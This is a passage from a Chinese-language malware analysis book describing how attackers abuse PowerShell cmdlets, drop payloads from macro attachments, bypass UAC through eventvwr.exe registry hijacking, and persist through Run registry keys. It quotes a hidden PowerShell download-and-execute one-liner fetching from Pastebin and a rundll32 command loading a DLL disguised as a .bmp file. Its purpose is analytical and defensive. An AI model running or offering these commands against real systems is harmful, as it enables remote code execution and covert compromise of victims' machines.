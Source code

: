 除了使用 PowerShell 命令行参数外，攻击者还会在 PowerShell 脚本中利用 cmdlet 或 .NET API。以下是最常用的命令和函数：

+   `Invoke-Expression (IEX)`: 该 cmdlet 评估或执行指定的字符串作为命令

+   `Invoke-Command`: 该 cmdlet 可以在本地或远程计算机上执行 PowerShell 命令

+   `Start-Process`: 该 cmdlet 从给定的文件路径启动一个进程

+   `DownloadString`: 该方法来自 `System.Net.WebClient`（WebClient 类），用于将资源从 URL 下载为字符串

+   `DownloadFile()`: 该方法来自`System.Net.WebClient`（WebClient 类），用于将资源从 URL 下载到本地文件

以下是作者博客中提到的一次攻击中使用的 PowerShell 下载器的示例（[`cysinfo.com/cyber-attack-targeting-indian-navys-submarine-warship-manufacturer/`](https://cysinfo.com/cyber-attack-targeting-indian-navys-submarine-warship-manufacturer/)）。在这个例子中，PowerShell 命令通过受害者收到的电子邮件附件中的恶意宏，使用 `cmd.exe` 被触发，微软 Excel 表格内嵌的宏执行了该命令。

PowerShell 将下载的可执行文件投放到 `%TEMP%` 目录中，并命名为 `doc6.exe`。接着，它会为该可执行文件添加一个注册表条目，并调用 `eventvwr.exe`，这是一种有趣的注册表劫持技术，允许 `doc6.exe` 被 `eventvwr.exe` 以高权限级别执行。该技术还悄悄绕过了 *UAC（用户帐户控制）*：

![](img/00213.jpeg)

以下是一次定向攻击中的 PowerShell 命令示例（[`cysinfo.com/uri-terror-attack-spear-phishing-emails-targeting-indian-embassies-and-indian-mea/`](https://cysinfo.com/uri-terror-attack-spear-phishing-emails-targeting-indian-embassies-and-indian-mea/)）。在这个例子中，PowerShell 是通过恶意宏触发的，且不是直接下载一个可执行文件，而是通过 `DownloadString` 方法下载了来自 Pastebin 链接的 base64 编码内容。下载编码内容后，它会被解码并写入磁盘：

```
powershell -w hidden -ep bypass -nop -c "IEX ((New-Object Net.WebClient).DownloadString('http://pastebin.com/raw/[removed]'))"
```

在以下示例中，在调用 PowerShell 之前，恶意软件投放器首先在 `%Temp%` 目录中写入一个扩展名为 *.bmp* 的 DLL 文件（`heiqh.bmp`），然后通过 PowerShell 启动 `rundll32.exe` 来加载该 DLL，并执行 DLL 导出的函数 `dlgProc`：

```
PowerShell cd $env:TEMP ;start-process rundll32.exe heiqh.bmp,dlgProc
```

有关恶意软件攻击中使用的不同 PowerShell 技术的更多信息，请参阅白皮书：*攻击中 PowerShell 使用的增加：* [`www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf`](https://www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf)。对手利用各种混淆技术使分析变得更加困难。想了解攻击者如何使用 PowerShell 混淆技术，请观看 Daniel Bohannon 在 Derbycon 的演讲：[`www.youtube.com/watch?v=P1lkflnWb0I`](https://www.youtube.com/watch?v=P1lkflnWb0I)。

# 2\. 恶意软件持久化方法

对手常常希望他们的恶意程序即使在 Windows 重启后也能继续存在。这通过使用各种持久性方法实现；这种持久性允许攻击者在不需要重新感染的情况下继续存在于被攻击的系统中。有许多方法可以让恶意代码每次在 Windows 启动时执行。在这一节中，你将了解一些对手使用的持久性方法。这些持久性技术中的一些方法允许攻击者在提权后执行恶意代码（权限提升）。

# 2.1 运行注册表键

对手用来在重启后生存的最常见的持久性机制之一是通过向*运行注册表键*添加条目来实现。添加到运行注册表键中的程序会在系统启动时执行。以下是最常见的运行注册表键的列表。除了我们即将提到的这些，恶意软件还可以将自己添加到其他自动启动位置。了解各种自动启动位置的最好方法是使用 Sysinternals 的*AutoRuns 工具*（[`docs.microsoft.com/en-us/sysinternals/downloads/autoruns`](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns)）：
